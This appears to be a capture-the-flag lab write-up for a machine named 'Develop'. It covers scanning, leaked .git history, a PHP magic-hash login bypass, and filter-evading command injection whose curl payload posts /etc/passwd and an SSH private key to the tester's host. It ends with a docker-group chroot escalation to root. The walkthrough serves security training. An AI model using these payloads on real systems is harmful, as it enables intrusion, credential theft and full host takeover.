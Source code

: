 # Develop

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.135
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:38 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan on the HTTP ports as well:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.135      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:40 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
|_http-title: Develop Solutions
| http-git: 
|   192.168.160.135:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added fix to do 
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So there's a `.git` repository which we can download first.&#x20;

### Web + Git Enumeration

Port 80 hosts a corporate website:

<figure><img src="../../../.gitbook/assets/image (3954).png" alt=""><figcaption></figcaption></figure>

If we click 'Get in touch', we are redirected to `develop.site/getintouch.php`. We can first add that to our `/etc/hosts` file and then enumerate further.&#x20;

The page reveals a simple Contact Form:

<figure><img src="../../../.gitbook/assets/image (3148).png" alt=""><figcaption></figcaption></figure>

Nothing much there. I ran a `gobuster` scan on the website and also downloaded the `.git` repository. While the `gobuster` scan ran, I enumerated the logs of the repository. Here's the interesting output:

```
$ git log -p -5
<TRUNCATED>
diff --git a/README.md b/README.md
index 4e81ff9..ef97745 100644
--- a/README.md
+++ b/README.md
@@ -1,6 +1,8 @@
 DONE:
 - Added staff vhost
 - Removed juicy files from git repo
-
+- Implemented blacklist & whitelist filters to prevent remote code execution reported by the last penetration test performed on our platform
+ 
 TODO:
-- Change weak passowrds
+- Change weak password
+- Remove commands from the whitelist like "cut" which are not needed anymore

...

diff --git a/init.sql b/init.sql
deleted file mode 100644
index e27be17..0000000
--- a/init.sql
+++ /dev/null
@@ -1,16 +0,0 @@
-DROP SCHEMA IF EXISTS app;
-CREATE SCHEMA app;
-USE app;
-
-CREATE TABLE staff(
-    id INT NOT NULL AUTO_INCREMENT,
-    username VARCHAR(20),
-    email VARCHAR(40),
-    password VARCHAR(255),
-    PRIMARY KEY(id)
-);
-
-# Inserting staff
-INSERT INTO staff(username, email, password) VALUES("franz", "franz@develop.info", "2df3f8123cd4cf019e215a37a19d0972");
-INSERT INTO staff(username, email, password) VALUES("alex", "alex@develop.info", "2af05664fdd33119293ce07da4509139");
-INSERT INTO staff(username, email, password) VALUES("lu191", "lu191@develop.info", "0e987654321098765432109876543210");
diff --git a/login.php b/login.php
deleted file mode 100644
index 28dd8b2..0000000
--- a/login.php
+++ /dev/null
@@ -1,101 +0,0 @@
-<?php
-session_start();
-require_once('database.php');
-
-if (isset($_POST['login'])) {
-  $username = $_POST['inputUsername'] ?? '';
-  $password = $_POST['inputPassword'] ?? '';
-  
-  if (empty($username) || empty($password)) {
-      $msg = 'Inserisci username e password %s';
-  } else {
-      $query = "
-          SELECT username, password, email
-          FROM staff
-          WHERE username = :username
-      ";
-      
-      $check = $pdo->prepare($query);
-      $check->bindParam(':username', $username, PDO::PARAM_STR);
-      $check->execute();
-      
-      $user = $check->fetch(PDO::FETCH_ASSOC);
-      
-      if (!$user || (md5($password) != $user['password'])) {
-          $msg = 'Credenziali utente errate %s';
-      } else {
-          session_regenerate_id();
-          $_SESSION['session_id'] = session_id();
-          $_SESSION['username'] = $user['username'];
-          $_SESSION['email'] = $user['email'];
-          
-          header('Location: ./dashboard/dashboard.php');
-          exit;
-      }
-  }
-}
-?>
```

Firstly, we have some mention of a blacklist and whitelist preventing RCE. Next, we have some hashes and users, of which the hashes don't crack.&#x20;

Lastly, we have `login.php` form, which uses the username concatenated with the MD5 of the password. This authentication mechanism is vulnerable to PHP type juggling since `===` is not used, hence magic hashes can be used to bypass the login.&#x20;

### Magic Hashes --> LFI SSH

The `.git` repository seems to be for the service running on port 8080:

<figure><img src="../../../.gitbook/assets/image (3937).png" alt=""><figcaption></figcaption></figure>

We can login with `lu191:240610708`, abusing the type juggling here and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (1190).png" alt=""><figcaption></figcaption></figure>

The Resources tab of the dashboard shows potential for RCE:

<figure><img src="../../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

So we know that this is probably still vulnerable to RCE, and it tells us when we are blocked.&#x20;

<figure><img src="../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

I tested different commands, and found that `curl` isn't blocked:

<figure><img src="../../../.gitbook/assets/image (1175).png" alt=""><figcaption></figcaption></figure>

Commands like `bash` and `sh` are blocked, and so are 'space' characters, so it will be difficult to get a reverse shell through `curl`. However, we can use this to read the files on the system by sending POST requests to our listening port 80.&#x20;

To overcome the space character block, we can use `${IFS}`. Using this, we can send POST requests with file contents using the `-F` flag:

{% code overflow="wrap" %}
```
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/etc/passwd"${IFS}http://192.168.45.191
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

Using this method, I found that the user was `franz`. We can then attempt to read their private SSH key:

<figure><img src="../../../.gitbook/assets/image (3964).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in:

<figure><img src="../../../.gitbook/assets/image (1180).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker Group

As seen above, the user is part of the `docker` group, meaning that we can easily escalate privileges. Firstly, find the images present:

```
$ docker images                                                                                        
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE                                               
mysql        8.0.22    d4c3cafb11d5   2 years ago   545MB
```

&#x20;Just run this command from Hacktricks:

{% code overflow="wrap" %}
```
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host d4c3cafb11d5 chroot /host/ bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3941).png" alt=""><figcaption></figcaption></figure>
